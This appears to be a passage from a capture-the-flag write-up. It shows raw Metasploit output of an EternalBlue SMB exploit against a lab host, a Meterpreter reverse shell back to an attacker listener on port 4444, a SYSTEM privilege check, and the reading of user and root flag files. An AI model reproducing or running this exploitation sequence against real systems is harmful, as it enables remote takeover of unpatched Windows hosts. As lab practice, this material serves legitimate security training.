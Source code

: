 ```c
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.40:49158) at 2021-09-15 18:19:01 +0530
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeImpersonatePrivilege
SeTcbPrivilege

meterpreter > pwd
C:\Windows\system32
meterpreter > cd ../../
meterpreter > cd Users
meterpreter > ls
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2017-07-21 12:26:23 +0530  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 10:38:56 +0530  All Users
40555/r-xr-xr-x   8192  dir   2009-07-14 08:50:08 +0530  Default
40777/rwxrwxrwx   0     dir   2009-07-14 10:38:56 +0530  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 08:50:08 +0530  Public
100666/rw-rw-rw-  174   fil   2009-07-14 10:24:24 +0530  desktop.ini
40777/rwxrwxrwx   8192  dir   2017-07-14 19:15:33 +0530  haris

meterpreter > cat haris/Desktop/user.txt
<---USER FLAG---> 
meterpreter > cat Administrator/Desktop/root.txt
<---ROOT FLAG--->
meterpreter >
```

